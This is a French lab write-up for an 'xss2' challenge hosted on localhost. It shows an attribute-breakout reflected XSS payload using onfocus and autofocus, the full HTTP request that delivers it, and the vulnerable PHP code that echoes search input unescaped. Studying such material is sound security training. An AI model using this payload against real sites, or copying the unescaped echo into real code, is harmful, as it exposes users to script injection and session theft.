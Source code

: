 # xss2

## Exploitation

Le second challenge propose une fonctionnalité de recherche :&#x20;

![](<../../../.gitbook/assets/image (1) (1) (2).png>)

Lorsque je renseigne un mot clé, il n'est pas réfléchi dans le message d'erreur mais est présent en tant que valeur du champ de recherche :&#x20;

![](<../../../.gitbook/assets/image (12) (1).png>)

`value` est un attribut HTML safe, l'injection ne peut se faire directement. Je vais donc préparer ma payload afin de m'échapper de cet attribut puis forger mon attaque. Il y a plusieurs solutions ici mais je choisis de passer par un autofocus `whatever" onfocus="alert(1)" autofocus x="` :&#x20;

```http
POST /xss2/ HTTP/1.1
Host: localhost:9003
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Content-Type: application/x-www-form-urlencoded
Content-Length: 83
Origin: http://localhost:9003
Connection: close
Referer: http://localhost:9003/xss2/
Upgrade-Insecure-Requests: 1

search=whatever%22+onfocus%3D%22alert%281%29%22+autofocus+plop%3D%22&submit=Envoyer
```

![](<../../../.gitbook/assets/image (4) (1) (4).png>)

## Analyse du code source

La valeur du paramètre `$keyword`, récupérée depuis la variable `$_POST['search']` est affichée directement grâce à la directive `echo` en tant que valeur de l'attribut HTML `value`. Aucune protection étant en place, l'injection est donc évidente :

```php
<?php
  if (isset ($_POST['submit']) && isset ($_POST['search'])) {
    $keyword = $_POST['search'];
  }
?>

<input type="text" class="form-control" id="search" name="search" value="<?php if (isset ($keyword) && !empty ($keyword)){ echo $keyword; }?>"
```
